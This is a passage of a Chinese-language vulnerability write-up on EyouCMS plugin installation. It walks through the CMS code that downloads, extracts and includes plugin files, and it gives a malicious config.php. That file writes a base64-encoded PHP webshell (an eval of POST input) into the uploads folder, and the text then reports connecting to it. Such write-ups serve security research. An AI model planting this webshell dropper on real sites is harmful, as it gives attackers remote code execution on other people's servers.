

会得到类似于

```
https://www.eyoucms.com/uploads/allimg/230412/123112308445612344.jpg
```

这样的路径

然后就开始下载文件了

```
$savePath   = UPLOAD_PATH . 'tmp' . DS;
$folderName = session('admin_id') . '-' . dd2char(date("ymdHis") . mt_rand(100, 999));
$fileName   = $folderName . ".zip";
$result = $this->downloadFile($url, $savePath, $fileName);
if (!isset($result['code']) || $result['code'] != 1) {
    $this->error($result['msg']);
}
$filepath = $result['filepath'];

```

设置临时目录保存路径 $savePath，生成保存文件夹和文件名 fileName，并调用 downloadFile 方法将插件文件下载到服务器。

然后还会对文件进行解压

```
if (file_exists($filepath)) {
    $zip = new \ZipArchive();
    if ($zip->open($filepath) != true) {
        $this->error("插件压缩包读取失败!", url('Weapp/plugin'));
    }
    $zip->extractTo($savePath . $folderName . DS);
    $zip->close();
}
```

然后

```
$dirList   = glob($savePath . $folderName . DS . WEAPP_DIR_NAME . DS . '*');
$weappPath = !empty($dirList) ? $dirList[0] : '';
if (empty($weappPath)) {
    @unlink(realpath($savePath . $fileName));
    delFile($savePath . $folderName, true);
    $this->error('插件压缩包缺少目录文件', url('Weapp/plugin'));
}

$weappPath    = str_replace("\", DS, $weappPath);
$weappPathArr = explode(DS, $weappPath);
$weappName    = $weappPathArr[count($weappPathArr) - 1];
/*--end*/

/*修复非法插件上传，导致任意文件上传的漏洞*/
$configfile = $savePath . $folderName . DS . WEAPP_DIR_NAME . DS . $weappName . '/config.php';
if (!file_exists($configfile)) {
    $msg = '插件不符合标准！';
    $filelist_tmp = getDirFile($savePath . $folderName . DS . WEAPP_DIR_NAME . DS . $weappName);
    if (empty($filelist_tmp)) {
        $msg = '压缩包解压失败，请联系空间商';
    }
    @unlink(realpath($savePath . $fileName));
    delFile($savePath . $folderName, true);
    $this->error($msg, url('Weapp/plugin'));
} else {
    $configdata = include($configfile);
    if (empty($configdata) || !is_array($configdata)) {
        @unlink(realpath($savePath . $fileName));
        delFile($savePath . $folderName, true);
        $this->error('插件不符合标准！', url('Weapp/plugin'));
    }
```

就是获取目录然后包含文件了，这里因为我不能上传，我就直接写一个文件了

反正效果都是一样的

恶意文件如下，注意文件要写到可访问目录

```
<?php  file_put_contents("./uploads/allimg/shell.php",base64_decode("PD9waHAgcGhwaW5mbygpO0BldmFsKCRfUE9TVFttb3Z4XSk7Pz4="));
?>
```

然后我们只需要随便访问插件页面

  
可以看见已经生成了 shell 文件，内容如下  


访问 shell  
  
尝试连接木马



### 最后

这个还有其他 getshell 的方法，下次再写吧，写不动了，不过感觉每个 getshell 的方法都很有意思，特别是这次对 url 的绕过

参考<https://n1k0la-t.github.io/2023/01/28/EyouCMS%20v1.6.1%200day%E6%8C%96%E6%8E%98/#EyouCMS-v1-6-1-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E>
